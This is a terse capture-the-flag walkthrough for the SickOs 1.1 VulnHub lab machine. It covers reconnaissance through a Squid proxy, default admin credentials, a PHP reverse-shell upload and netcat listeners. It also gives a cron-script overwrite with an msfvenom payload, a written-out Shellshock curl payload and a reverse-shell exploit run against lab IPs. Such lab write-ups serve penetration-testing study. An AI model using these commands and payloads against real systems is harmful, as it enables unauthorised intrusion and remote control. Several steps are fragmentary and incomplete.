



## SickOs 1.1 VulnHub VM walkthrough

SickOs 1.1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/sickos-11,132/

```
This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. 
This vm is very similar to labs I faced in OSCP. 
The objective being to compromise the network/machine and gain Administrative/root privileges on them.
```

## Solution

To find IP address of VM:

#### Sudo Netdiscover



> IP address: 192.168.1.11

#### Port scan


> Squid HTTP Proxy is running on port 3128 > Firefox Web proxy 192.168.1.11:3128 > Squid web server
 
#### Nikto 
Nikto -h 192.168.1.11 -useproxy 192.168.1.11:3128


> /cgi-bin/status > vulnerable to ShellShock

#### Burp proxy 192.168.1.11 : 3128  >>>> 192.168.1.11/robots.txt

Admin:admin

Added ip and port to php Reverse shell

Uploaded php reverse shell

Nc -nvlp 1234 & visited url of shell >> got shell

Visited var/www


Method 1: Using connect.py

Rw permissions for connect.py. Visit cron.d

Create payload with msfvenum 

Echo payload to connect.py

Nc -nvlp 7777


Method 2: using config.php

config.php


Method 3: Get a shell using shellshock

curl --proxy 192.168.1.11:3128 http://192.168.1.11/cgi-bin/status -H "User-Agent: () { pwned;}; echo 'Content-Type: text/plain'; echo; /usr/bin/whoami; exit"

Download 34900.py

Reverse shell: python 34900.py payload=reverse rhost=192.168.1.11 lhost=192.168.1.7 lport=1234 proxy=192.168.1.11:3128 pages=/cgi-bin/status


config.php

sudo


